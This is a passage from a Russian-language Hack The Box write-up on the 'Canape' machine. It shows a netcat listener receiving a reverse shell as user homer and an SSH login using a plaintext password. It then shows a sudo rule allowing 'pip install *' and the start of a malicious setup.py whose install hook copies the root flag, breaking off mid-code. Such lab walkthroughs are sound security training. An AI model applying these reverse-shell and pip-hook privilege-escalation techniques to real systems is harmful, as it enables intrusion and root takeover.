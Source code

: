 ```text
```

И последней командой получим свой реверс-шелл от пользователя homer:

```text
root@kali:~# nc -nlvvp 1337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.70.
Ncat: Connection from 10.10.10.70:52822.

homer@canape:~$ whoami
whoami
homer

homer@canape:~$ id
id
uid=1000(homer) gid=1000(homer) groups=1000(homer)
```

```text
homer@canape:~$ cat /home/homer/user.txt
cat /home/homer/user.txt
bce91869????????????????????????
```

# SSH — Порт 65535 (внутри машины)
Подключимся к машине по SSH и сразу ринемся в бой — узнаем, что скрывает `sudo`:
```text
root@kali:~# sshpass -p '0B4jyA0xtytZi7esBNGp' ssh -oStrictHostKeyChecking=no homer@10.10.10.70
homer@canape:~$ whoami
homer

homer@canape:~$ sudo -l
[sudo] password for homer:
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

`sudo` позволяет выполнять `pip install`, а это означает ни что иное, как 乇ﾑらㄚ-рут для нас. Будем собирать фальшивый `setup.py`.

## PrivEsc: homer → root
Это можно сделать просто МНОЖЕСТВОМ способов, все ограничивается лишь твоим воображением!

1\. Можно просто прочитать root-флаг:
```python
# setup.py

from setuptools import setup
from setuptools.command.install import install

class Exploit(install):
	def run(self):
		with open('/dev/shm/PWNED', 'w') as fout:
			with open('/root/root.txt', 'r') as fin:
				fout.write(fin.read())

setup(
	cmdclass={
```